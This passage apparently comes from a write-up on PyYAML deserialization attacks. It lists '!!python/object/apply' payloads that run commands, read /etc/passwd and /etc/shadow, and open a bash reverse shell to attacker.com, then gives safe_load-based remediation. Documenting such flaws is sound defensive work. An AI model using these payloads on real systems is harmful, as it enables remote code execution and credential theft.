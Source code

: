 ```bash
  "execution_time": "0.001s"
}
```

#### **Advanced RCE Payloads:**
```yaml
# Basic command execution
!!python/object/apply:subprocess.call [['whoami']]

# File system access
!!python/object/apply:subprocess.call [['cat', '/etc/passwd']]
!!python/object/apply:subprocess.call [['cat', '/etc/shadow']]

# Network reconnaissance
!!python/object/apply:subprocess.call [['netstat', '-an']]
!!python/object/apply:subprocess.call [['ifconfig']]

# Process enumeration
!!python/object/apply:subprocess.call [['ps', 'aux']]

# Reverse shell (advanced)
!!python/object/apply:subprocess.call [['bash', '-c', 'bash -i >& /dev/tcp/attacker.com/4444 0>&1']]

# Alternative RCE methods
!!python/object/apply:os.system ['id']
!!python/object/apply:eval ['__import__("os").system("whoami")']
```

#### **Remediation:**
```python
# Secure YAML processing with SafeLoader
import yaml

def process_yaml_safely(data):
    # Use SafeLoader to prevent code execution
    try:
        result = yaml.safe_load(data)
        return result
    except yaml.YAMLError as e:
        raise ValueError(f"Invalid YAML: {e}")

# Alternative: Custom safe loader
class SafeYAMLLoader(yaml.SafeLoader):
    def construct_python_object(self, node):
        raise yaml.ConstructorError(
            None, None, "Python objects not allowed", node.start_mark
        )

def process_yaml_custom(data):
    loader = SafeYAMLLoader
    loader.add_constructor('!!python/object', loader.construct_python_object)
    return yaml.load(data, Loader=loader)
```
